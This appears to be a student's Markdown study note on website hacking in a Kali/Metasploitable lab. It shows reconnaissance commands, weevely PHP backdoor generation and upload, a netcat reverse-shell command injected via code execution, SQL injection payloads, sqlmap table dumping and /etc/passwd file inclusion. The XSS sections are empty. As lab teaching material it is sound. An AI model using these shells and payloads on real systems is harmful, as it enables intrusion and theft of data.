 # Website Hacking

1. [Information Gathering](#information-gathering)

2. [File Vulnerabilities](#file-vulnerabilities)

3. [SQL Injection Vulnerabilities](#sql-injection-vulnerabilities)

4. [Cross Site Scripting Vulnerabilities](#cross-site-scripting-vulnerabilities)

5. [Discovering Vulnerabilities Automatically](#discovering-vulnerabilities-automatically)

For this section, the Metasploitable machine can be used with Kali, as we'll be making use of the web files stored in the former and attack it on using the latter. We can visit the Metasploitable website by simply using the IP address of the machine.

## Information Gathering

---

* [Whois Lookup](https://whois.domaintools.com/) can be used to find info about owner of target.

* [Netcraft](https://sitereport.netcraft.com/) shows the technologies used on the target.

* [Robtex](https://www.robtex.com/) shows comprehensive info about target.

* If we cannot hack our target website, we can hack other websites on the same server, to gain target access. To find websites on the same server, use Robtex DNS lookup (names pointing to same IP address).

* Knock can be used to find subdomains of target website:

```shell
knockpy google.com #shows subdomains of google.com
```

* Dirb can be used to find files & directories in target website:

```shell
man dirb #info about dirb

dirb http://10.0.2.5/mutillidae #uses default wordlist file to check directories

#this will give a list of discovered files for more info
```

## File Vulnerabilities

---

* File upload vulnerabilities allow users to upload executable files.

* Weevely can be used to generate PHP shells (backdoors) and gain access:

```shell
weevely generate 1234 /root/shell.php #generates a php shell with the password '1234'

#now the shell can be uploaded in the target website
#weevely can be used to interact with the uploaded file
#we have to give url of uploaded file and password

weevely http://10.0.2.5/dvwa/hackable/uploads/shell.php 1234 #this will give access to target file system
```

* Code execution vulnerabilities allow us to execute OS code on target server.

* Netcat can be used for this as it listens and connects computers:

```shell
nc -vv -l -p 8080 #using netcat to listen on port 8080

#now, we can try to connect from target server to our computer using the code execution vulnerability
nc -e /bin/sh 10.0.2.7 8080 #this command to be entered in the website
```

* Local file inclusion vulnerabilities allow us to read files on the same server. This can be exposed through the URL. For example, the URL can be manipulated to view the files in the directory /etc/passwd.

* Remote file inclusion vulnerabilities allow us to read files from any server. This can be done by uploading PHP shells and payloads.

## SQL Injection Vulnerabilities

---

* SQL Injection vulnerabilities can give complete access to the databases and other files. To try and discover SQL injections, we need to browse through the target and try to break each page.

* SQLi examples:

    1. ' - this can be used to break the page
    2. a' or 1=1# - the first part contains a quote to end the query, the second part is always true so it gets executed, pound sign is used to comment any query following this
    3. username' #

* SQLi can be done by manipulating the URL as well (if URL contains parameters such as = or ?, for example). Note that we have to encode special characters in URL; like converting # to %23.

* SQLMap is a tool used to exploit SQLi:

```shell
sqlmap -u "http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=admin&password=passd&user-info-php-submit-button=View+Account+Details"

sqlmap --help

sqlmap -u "http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=admin&password=passd&user-info-php-submit-button=View+Account+Details" --tables -D owasp10 #this will show the tables from the database 'owasp10'
```

* To prevent SQLi, one must use parameterized statements, by separating data from code.

## Cross Site Scripting Vulnerabilities

---

## Discovering Vulnerabilities Automatically

---
